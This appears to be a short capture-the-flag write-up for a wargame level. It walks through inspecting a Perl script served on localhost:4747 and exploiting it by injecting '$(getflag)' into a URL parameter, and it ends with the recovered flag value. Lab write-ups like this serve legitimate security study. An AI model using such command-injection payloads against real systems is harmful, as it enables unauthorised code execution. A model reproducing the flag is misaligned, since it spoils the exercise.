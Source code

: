 # level04

We got some intel from level00:

dr-xr-x---  2 flag04 level04  33 Mar 12  2016 level04

/var/www/level04

/rofs/var/www/level04

```shell
cat level04.pl
```

seems to indicate that a server is running on localhost:4747

```shell
service apache2 status
```

tells us that a webserver is probably running too

```shell
cat /var/www/level04/level04.pl
```

shows the same level04.pl script as ~/level04.pl

```shell
cat /etc/apache2/sites-enabled/level05.conf
```

shows that the root of the webserv is containing level04.pl

```shell
curl localhost:4747?x=exploit
```

prints `exploit` in terminal meaning that we might inject some code

```shell
ls -la /etc/apache2/sites-enabled/level05.conf
```

shows that this code would be executed belonging to flag04 group

```shell
curl localhost:4747?x='$(getflag)'
```

gives flag:

```shell
ne2searoevaevoem4ov4ar8ap
```
